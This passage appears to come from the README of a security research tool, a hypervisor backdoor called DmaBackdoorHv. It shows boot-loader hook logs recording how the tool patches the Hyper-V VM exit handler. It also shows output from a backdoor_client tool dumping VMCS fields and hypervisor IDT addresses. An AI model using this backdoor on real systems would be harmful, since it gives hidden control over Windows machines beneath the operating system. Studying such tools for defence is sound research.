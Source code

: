 ```
DmaBackdoorHv.c(506) : winload!BlLdrLoadImage() hook was set, handler is at 0x8af414cc
DmaBackdoorHv.c(329) : new_BlLdrLoadImage(): "\Windows\system32\mcupdate_GenuineIntel.dll"
DmaBackdoorHv.c(329) : new_BlLdrLoadImage(): "\Windows\system32\hvix64.exe"
HyperV.c(369) : HyperVHook(): Hyper-V image is at 0xfffff80058245000
HyperV.c(388) : HyperVHook(): Resources section RVA is 0x1400000 (0x200000 bytes)
HyperV.c(425) : HyperVHook(): Code section RVA is 0x200000
HyperV.c(572) : HyperVHook(): Hyper-V VM exit handler is at 0xfffff80058475d10
HyperV.c(573) : HyperVHook(): Backdoor code size is 684 bytes
DmaBackdoorHv.c(329) : new_BlLdrLoadImage(): "\Windows\system32\kdstub.dll"
DmaBackdoorHv.c(329) : new_BlLdrLoadImage(): "\Windows\system32\hv.exe"
DmaBackdoorHv.c(540) : new_ExitBootServices() called
```

Dumping VMCS structure of the current guest:

```
> backdoor_client.exe 0 --vmcs
[+] Running on CPU #0
[+] VMCS dump:

             GUEST_ES_SELECTOR: 0x2b
             GUEST_CS_SELECTOR: 0x33
             GUEST_SS_SELECTOR: 0x2b
             GUEST_DS_SELECTOR: 0x2b
             GUEST_FS_SELECTOR: 0x53
             GUEST_GS_SELECTOR: 0x2b
           GUEST_LDTR_SELECTOR: 0x0
             GUEST_TR_SELECTOR: 0x40
              HOST_ES_SELECTOR: 0x20
              HOST_CS_SELECTOR: 0x10
              HOST_SS_SELECTOR: 0x20
              HOST_DS_SELECTOR: 0x20
              HOST_FS_SELECTOR: 0x20
              HOST_GS_SELECTOR: 0x20
              HOST_TR_SELECTOR: 0x30
                   IO_BITMAP_A: 0x7a3000
              IO_BITMAP_A_HIGH: 0x0
                   IO_BITMAP_B: 0x7a4000
              IO_BITMAP_B_HIGH: 0x0
                  GUEST_PDPTE0: 0x20000000000
                  GUEST_PDPTE1: 0x60000010000
                  GUEST_PDPTE2: 0x40000000000
                  GUEST_PDPTE3: 0x0
                   EPT_POINTER: 0x145f101e

  ...

```

Dumping hypervisor IDT handlers:

```
> .\backdoor_client.exe 0 --idt
[+] Running on CPU #0
[+] Hypervisor IDT dump:

0000: 0xfffff80004250440
0001: 0xfffff800042504c0
0002: 0xfffff80004250540
0003: 0xfffff80004250880
0004: 0xfffff80004250780
0005: 0xfffff80004250800
0006: 0xfffff80004250900
0007: 0xfffff80004250a00
0008: 0xfffff80004251000
```